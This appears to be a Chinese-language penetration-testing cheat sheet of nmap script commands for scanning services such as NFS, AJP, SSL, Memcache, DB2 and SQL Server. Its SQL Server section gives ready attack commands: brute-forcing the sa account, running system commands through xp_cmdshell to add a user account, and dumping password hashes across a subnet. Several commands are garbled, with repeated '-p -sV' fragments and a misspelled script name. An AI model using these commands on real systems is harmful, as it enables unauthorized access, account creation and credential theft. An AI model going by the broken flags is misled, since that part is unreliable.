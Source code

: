 ### 扫描DAAP服务
```zsh
    nmap -sV  -p -sV 3689 --script=daap-get-library <target> [--script-args daap_item_limit=number]
```

### 扫描NFS服务
```zsh
    nmap -sV  -p -sV 111 --script nfs-ls,nfs-showmount <target>
```

### 扫描AJP服务
```zsh
    nmap -sV  -p -sV 8009 --script ajp-* <target> [--script-args=ajp-auth.path=/login]
```

### 2.9.2. 扫描ASP.NET服务
```zsh
    nmap -sV  -p -sV 80 --script=http-aspnet-debug  [--script-args=http-aspnet-debug.path=path] <target>
```

### 扫描HTTP认证服务
```zsh
    nmap -sV  -p -sV 80 --script http-auth [--script-args=http-auth.path=/login] <host>
```

### 扫描SSL服务
```zsh
    nmap -sV  -p -sV 443 --script ssl-*,sslv2-sV  -p -sV,tls-alpn,tls-nextprotoneg <host>
```


### Memcache数据库
```zsh
    nmap -sV -p11211 --script memcached-info <host>
```
### 扫描DB2数据库
```zsh
    nmap --script broacast-db2-discover ,db2-das-info <host>
```

### 扫描SQL Server服务
```zsh
     获取mssql信息                        # nmap -p 1433 --script ms-sql-info.nse --script-args mssql.instance-port=1433 -v 192.168.3.0/24
    扫描mssql sa空密码                    # nmap -p 1433 --script ms-sql-empty-password.nse -v 192.168.3.0/24
     sa弱口令爆破                         # nmap -p 1433 --script ms-sql-brute.nse -v 192.168.3.0/24
     利用xp_cmdshell,远程执行系统命令       # nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add 192.168.3.0/24
    导出mssql中所有的数据库用户及密码hash        # nmap -p 1433 --script ms-sql-dump-hashes -v 192.168.3.0/24
```
